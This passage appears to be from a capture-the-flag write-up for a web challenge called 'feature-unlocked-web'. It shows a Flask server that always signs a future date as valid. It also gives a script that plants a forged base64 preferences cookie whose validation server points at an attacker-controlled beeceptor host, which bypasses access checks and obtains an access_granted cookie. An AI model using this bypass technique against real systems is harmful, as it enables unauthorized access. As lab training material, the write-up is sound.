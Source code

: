 ```python
@app.route('/', methods=['GET'])
def index():
    date = str(int(time.time()))
    h = SHA256.new(date.encode('utf-8'))
    signature = DSS.new(key, 'fips-186-3').sign(h)

    # Bypass validation by always returning a valid date and signature
    # Ensure the date is in the future to always pass the validation
    valid_date = str(int(time.time()) + 10 * 24 * 60 * 60)  # Valid for 10 days in the future
    valid_signature = DSS.new(key, 'fips-186-3').sign(SHA256.new(valid_date.encode('utf-8')))

    return jsonify({
        'date': valid_date,
        'signature': valid_signature.hex()
    })

if __name__ == '__main__':
    app.run(host='127.0.0.1', port=1338)
```

This here always returns a valid date. Let's now create our `gen.py` script to get the acess\_granted cookie.

### `gen.py`

```python
import requests
import base64
import json
import time

# Configuration
BASE_URL = 'https://feature-unlocked-web.challs.csc.tf'
RELEASE_ENDPOINT = '/release'
PREFERENCES_COOKIE_NAME = 'preferences'
DEFAULT_PREFERENCES = {
    'theme': 'light',
    'language': 'en',
    'validation_server': 'https://<id>.free.beeceptor.com'  # This should match the modified validation server URL
}

# Encode preferences as base64
encoded_preferences = base64.b64encode(
    json.dumps(DEFAULT_PREFERENCES).encode()
).decode()

# Set the preferences cookie value
cookies = {
    PREFERENCES_COOKIE_NAME: encoded_preferences
}

# Make the GET request to /release with debug=true
response = requests.get(
    f'{BASE_URL}{RELEASE_ENDPOINT}',
    params={'debug': 'true'},
    cookies=cookies,
    allow_redirects=False  # Avoid following redirects to see the response directly
)

# Print the response
print(f"Status Code: {response.status_code}")
print(f"Response Headers: {response.headers}")
print(f"Response Text: {response.text}")
```
